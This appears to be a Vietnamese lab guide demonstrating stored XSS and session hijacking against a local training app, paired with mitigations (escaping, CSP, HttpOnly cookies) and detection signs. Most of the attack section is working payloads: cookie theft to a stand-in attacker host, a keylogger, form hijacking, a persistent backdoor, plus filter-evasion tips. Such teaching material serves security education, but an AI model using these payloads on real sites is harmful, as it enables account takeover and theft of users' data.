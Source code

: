 # 🎯 XSS + Session Hijacking Demo

## Kịch bản Tấn công

**Tình huống:** Attacker muốn đánh cắp cookie của admin mà không cần biết password

**Phương pháp:** Stored XSS + Session Hijacking

## 📝 Các bước thực hiện

### Bước 1: Attacker đăng nhập (user1)

```
Username: user1
Password: password1
```

### Bước 2: Attacker post comment với XSS payload

**Payload 1 - Test XSS:**

```html
<script>
    alert(document.cookie);
</script>
```

**Payload 2 - Steal Cookie (Internal):**

```html
<script>
    fetch("/api/steal?cookie=" + document.cookie);
</script>
```

**Payload 3 - Steal Cookie (External Server):**

```html
<script>
    var img = new Image();
    img.src = "http://attacker-server.com/steal?cookie=" + document.cookie;
</script>
```

**Payload 4 - Stealthy (Không redirect):**

```html
<img src="x" onerror="fetch('/api/steal?cookie='+document.cookie)" />
```

### Bước 3: Admin vào xem comment

1. Admin đăng nhập (hoặc đã đăng nhập sẵn)
2. Admin vào trang `/lab/auth`
3. Admin xem bảng tin comments
4. **Script tự động thực thi!**
5. Cookie của admin bị gửi đến attacker's server

### Bước 4: Attacker thu thập cookie

**Cách 1: Xem server console**

```bash
🚨 STOLEN COOKIE RECEIVED:
Timestamp: 2025-10-16T12:34:56.789Z
Cookie: auth=admin:admin123
IP: ::1
User-Agent: Mozilla/5.0...
```

**Cách 2: Xem trong database**

-   Đăng nhập lại
-   Xem comments
-   Tìm entry `[HACKER-LOG]`
-   Copy cookie value

### Bước 5: Attacker sử dụng cookie để giả mạo admin

1. Mở DevTools (F12)
2. Application → Cookies
3. Sửa cookie `auth` thành: `admin:admin123`
4. Refresh trang
5. **Đã đăng nhập với quyền admin!**

## 🧪 Demo với curl

### 1. Login as attacker (user1)

```bash
curl -X POST http://localhost:3000/api/login \
  -H "Content-Type: application/json" \
  -d '{"username":"user1","password":"password1"}'
```

### 2. Post XSS payload

```bash
curl -X POST http://localhost:3000/api/comment \
  -H "Content-Type: application/json" \
  -H "Cookie: auth=user1:password1" \
  -d '{"comment":"<script>fetch(\"/api/steal?cookie=\"+document.cookie)</script>"}'
```

### 3. Admin views comments (simulate)

```bash
curl http://localhost:3000/lab/auth \
  -H "Cookie: auth=admin:admin123" \
  > /dev/null
# Script will execute in browser!
```

### 4. Check stolen cookies

```bash
# Check server console or:
curl http://localhost:3000/lab/auth -H "Cookie: auth=user1:password1" \
  | grep "HACKER-LOG"
```

## 🎭 Advanced Payloads

### 1. Keylogger

```html
<script>
    document.onkeypress = function (e) {
        fetch("/api/steal?key=" + e.key);
    };
</script>
```

### 2. Form Hijacking

```html
<script>
    document.forms[0].onsubmit = function () {
        fetch("/api/steal?data=" + new FormData(this));
    };
</script>
```

### 3. Screenshot (if supported)

```html
<script>
    html2canvas(document.body).then((canvas) => {
        fetch("/api/steal?img=" + canvas.toDataURL());
    });
</script>
```

### 4. Persistent backdoor

```html
<script>
    setInterval(() => {
        fetch("/api/steal?heartbeat=" + document.cookie);
    }, 5000);
</script>
```

## 🛡️ Phòng chống

### ❌ Code không an toàn (hiện tại)

```javascript
// Template (EJS)
<div class="comment-body">
  <%- comment.comment %>  // Render HTML thô!
</div>
```

### ✅ Code an toàn

```javascript
// Template (EJS)
<div class="comment-body">
  <%= comment.comment %>  // Escape HTML
</div>

// Hoặc sanitize input
const sanitizeHtml = require('sanitize-html');
const clean = sanitizeHtml(dirtyInput);
```

### ✅ CSP (Content Security Policy)

```javascript
app.use((req, res, next) => {
    res.setHeader(
        "Content-Security-Policy",
        "default-src 'self'; script-src 'self'"
    );
    next();
});
```

### ✅ HttpOnly Cookie

```javascript
res.cookie("auth", token, {
    httpOnly: true, // Không thể đọc bằng JavaScript
    secure: true, // Chỉ gửi qua HTTPS
    sameSite: "strict",
});
```

## 📊 Impact

### Nếu thành công, attacker có thể:

1. ✅ Đánh cắp session của bất kỳ user nào (kể cả admin)
2. ✅ Thực thi code trên trình duyệt của victim
3. ✅ Đọc mọi thông tin trên trang (DOM)
4. ✅ Gửi request với quyền của victim
5. ✅ Redirect victim đến phishing page
6. ✅ Cài backdoor persistent

## 🔍 Detection

### Dấu hiệu bị tấn công:

1. **Server logs:**

    - Requests đến `/api/steal` bất thường
    - User-Agent lạ

2. **Network traffic:**

    - Outbound requests đến domain lạ
    - Cookie data trong URL params

3. **Database:**
    - Comments chứa `<script>` tags
    - Suspicious HTML/JavaScript

## 💡 Tips

-   Luôn test với `<script>alert(1)</script>` trước
-   Sử dụng `fetch()` thay vì `XMLHttpRequest` (modern)
-   Encode payload nếu bị filter: `%3Cscript%3E`
-   Sử dụng event handlers nếu script bị block: `<img onerror=>`
-   Combine với CSRF để tối đa impact

---

⚠️ **CHỈ SỬ DỤNG TRONG LAB - KHÔNG THỬ TRÊN HỆ THỐNG THỰC!**

